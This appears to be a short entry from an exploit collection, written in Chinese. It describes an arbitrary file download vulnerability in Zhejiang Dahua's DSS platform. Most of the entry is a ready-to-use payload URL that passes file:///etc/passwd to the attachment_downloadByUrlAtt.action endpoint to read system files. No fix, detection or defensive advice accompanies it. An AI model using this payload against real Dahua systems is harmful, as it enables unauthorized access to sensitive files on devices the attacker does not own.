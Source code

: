 <languages /> <translate>

漏洞簡介
--------

浙江大華技術股份有限公司DSS存在任意文件下載漏洞，攻擊者可利用該漏洞登錄界面下載任意文件獲取敏感信息。 </translate>

Payload
-------

    http://ip/itc/attachment_downloadByUrlAtt.action?filePath=file:///etc/passwd